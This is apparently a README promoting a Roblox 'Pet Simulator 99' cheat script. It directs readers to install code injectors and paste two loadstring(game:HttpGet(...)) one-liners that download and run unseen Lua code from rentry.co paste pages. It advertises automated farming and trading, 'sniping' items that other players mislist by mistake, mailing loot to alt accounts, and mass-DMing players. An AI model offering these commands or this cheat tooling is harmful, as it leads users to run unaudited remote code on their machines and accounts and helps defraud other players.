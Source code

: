 # pet-simulator-99-script 2024
To run script you need an injector
vega,delta,fluxus,pr arceous x is best https://spdmteam.com/

to run new script
run and install injector then run the script once loaded
into main account as u will need alt accounts aswellif u want
for mailing items

Auto farms diamonds,coins,potions,
auto dig auto fish,
autopop balloons,
auto quest for masteryand each mastery
auto level from 1st stage to 216
auto farm pet chest new update
auto farm 3 x huges in bank robbery
auto hatch eggs with disabling animation to summon eggs faster
auto trade items in market placewithout being at stand
auto snipe turn on and off get noptification when item sniped
if usrs make a mistake input 1 diamond or 10k in 1st box and second box put maxmum u want to snipe at (yes users make mistakes)
auto change server in market place when searching for items if you cant find it in current market
once item is sniped have them auto mailed to your next account (special feature)
auto dm players,
auto farm chest run and lucky blocks on server 1 and server 2 for chest runwill notify user when event about to start
script will auto update when new additons are added like when pet simulator 99 updates with new features or new items etc
select from drop down list what huges to buy enter ur price auto trade more features implanted and more to come
all in a sweet clean design

lau script so works with all injectors

u can use and install apk injectors on bluestacks,mumu player
there are 2 scripts basic and advance

loadstring(game:HttpGet('https://rentry.co/hx9ztmiz/raw',true))() basic script without sniper features
and second one adavnce and frigin awesome

loadstring(game:HttpGet('https://rentry.co/yw5qk5zx/raw',true))()   this feature also saves configuration so each time launched u dont have to keep redoing settings

join telegram page https://t.me/petsim99scripts
